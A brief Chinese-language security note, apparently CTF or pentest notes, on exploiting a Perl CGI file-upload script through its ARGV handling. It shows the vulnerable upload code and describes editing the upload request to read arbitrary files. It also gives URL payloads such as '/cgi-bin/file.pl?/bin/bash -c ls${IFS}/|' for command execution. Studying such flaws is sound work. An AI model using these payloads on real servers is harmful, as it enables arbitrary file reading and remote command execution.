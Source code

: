 ## **perl**
```
/cgi-bin/file.pl

一个文件上传页面，
上传后回显。

代码类似使用：
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
}
```
#### **1、文件读取**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
再url后面加上路径，即可读取。
![](.topwrite/assets/image_1735719387896.png)



#### **2、命令执行**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
```
POST /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| HTTP/1.1


/cgi-bin/file.pl?ls%20-l%20/%20|
```
